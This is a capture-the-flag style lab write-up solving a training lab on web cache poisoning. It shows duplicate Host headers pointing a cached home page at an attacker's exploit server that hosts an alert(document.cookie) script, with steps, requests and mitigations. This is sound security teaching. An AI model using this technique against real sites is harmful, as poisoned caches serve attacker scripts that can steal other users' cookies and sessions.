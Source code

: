 # Lab: Web Cache Poisoning via Ambiguous Requests

## Description
This lab is vulnerable to web cache poisoning due to discrepancies in how the cache and the back-end application handle ambiguous requests. An attacker can poison the cache so a malicious response (e.g., JavaScript execution) is served to other users.

## Objective
Poison the web cache so that the home page executes `alert(document.cookie)` in the victim’s browser.

## Exploitation Steps

1. **Open the lab** in Burp’s browser and click the **Home** link to refresh the homepage.

2. In **Burp Suite**, go to **Proxy > HTTP history**, find the `GET /` request and send it to **Repeater**.

3. In **Repeater**, observe the site’s behavior. You’ll notice the application validates the `Host` header. If you change it arbitrarily, the homepage becomes inaccessible.

4. Examine the response headers. You’ll see verbose caching headers showing cache hits and age. Use a cache buster like `GET /?cb=123` to bypass existing cache and force a new response.

5. Add a **second `Host` header** in Repeater with an arbitrary value. The server uses only the first for routing, but the second gets reflected in the absolute script URL (e.g., `/resources/js/tracking.js`), making it injectable.

6. Remove the second `Host` header and resend the request with the cache buster. Confirm that the cached response still contains your injected value.

7. Go to the **exploit server** and create a file at `/resources/js/tracking.js` containing:
   ```javascript
   alert(document.cookie)
   ```
8. in repeater modify the request as:
GET /?cb=123 HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
send this until your exploit server's script is chached.
9. Send the request a couple of times until you get a cache hit with your exploit server URL reflected in the response. To simulate the victim, request the page in the browser using the same cache buster in the URL. Make sure that the `alert(document.cookie)` fires.

10. In Burp Repeater, remove any cache busters and keep replaying the request until you have re-poisoned the cache. The lab is solved when the victim visits the home page.
## Impact
Web cache poisoning allows an attacker to inject malicious content into a cached response, which is then served to all subsequent users. This can lead to client-side attacks like cross-site scripting (XSS), session hijacking, phishing, or persistent defacement of cached pages.

## Mitigation
- Do not reflect user-controllable input into cacheable responses.
- Enforce strict validation of all HTTP headers, especially `Host`, and reject duplicated or ambiguous headers.
- Configure cache servers to ignore unrecognized or duplicate headers.
- Normalize requests before caching and ensure consistent behavior between the cache and the backend.
- Avoid caching responses that include dynamic or user-specific data.
- 

## Author
Shivam Singh (vgod)
Penetration Tester & Bug Hunter  
GitHub: https://github.com/vgod-sec
